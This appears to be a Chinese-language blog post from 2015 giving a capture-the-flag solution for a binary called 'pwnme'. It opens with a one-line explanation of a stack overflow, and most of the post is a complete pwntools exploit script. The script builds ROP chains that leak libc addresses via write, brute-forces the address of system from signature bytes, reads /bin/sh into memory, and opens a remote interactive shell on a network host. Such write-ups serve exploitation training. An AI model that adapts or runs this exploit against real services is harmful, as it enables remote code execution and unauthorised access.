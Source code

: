 ```yaml
---
layout: post
title: "isg_pwnme"
date: 2015-09-26 15:42:03 +0800
comments: true
categories: 
---
```


###0x00 
明显的栈溢出  
先rop泄漏system的地址，再将/bin/sh读入data段，后system执行shell

###0x01 exp

	from pwn import *
	from sys import *
	from binascii import *

	data_addr = 0x601040
	poprdi = 0x0000000000400663 #: pop rdi ; ret
	poprsi_popr15 = 0x0000000000400661 #: pop rsi ; pop r15 ; ret
	main = 0x0004005BD
	write_plt = 0x0400480
	read_plt = 0x4004A0
	gotplt = 0x601018
	system_magic = '\x48\x85\xff\x74\x0b\xe9\x86\xfa\xff\xff\x66\x0f\x1f\x44\x00\x00\x48\x8d\x3d\x19\x5b\x12\x00\x48'
	write = 0xb131a0
	system = 0xa76890

	#r = process('./pwnme')
	r = remote('192.168.56.101', 6666)

	def leak(addr):
		print r.recvuntil('you can')
		payload  = 'a'*16
		payload += 'b'*8
		payload += p64(poprdi)
		payload += p64(1)
		payload += p64(poprsi_popr15)
		payload += p64(addr)
		payload += p64(233)
		payload += p64(write_plt)
		payload += p64(main)
		r.sendline(payload)
		data  = r.recv(8)
		data += r.recvuntil('Pwn me if')
		print hex(addr), ' =>', hex(u64(data[2:10]))
		return data[2:10]


	write_addr = leak(gotplt)
	system_addr = u64(write_addr) + system -write + 9        #int(argv[1])
	for i in range(18):	
		system_addr = system_addr - 1
		data = ''
		data += leak(system_addr -8)
		data += leak(system_addr)
		if data in system_magic:
			print 'success success success success success success success success success success success '
			print hex(system_addr)
			print b2a_hex(data)
			print '------'
			system_addr = system_addr - 8
			break



	print r.recvuntil('you can')
	payload  = 'a'*16
	payload += 'b'*8
	payload += p64(poprdi)
	payload += p64(0)
	payload += p64(poprsi_popr15)
	payload += p64(data_addr)
	payload += p64(233)
	payload += p64(read_plt)
	payload += p64(poprdi)
	payload += p64(data_addr)
	payload += p64(system_addr)
	r.sendline(payload)

	r.interactive()



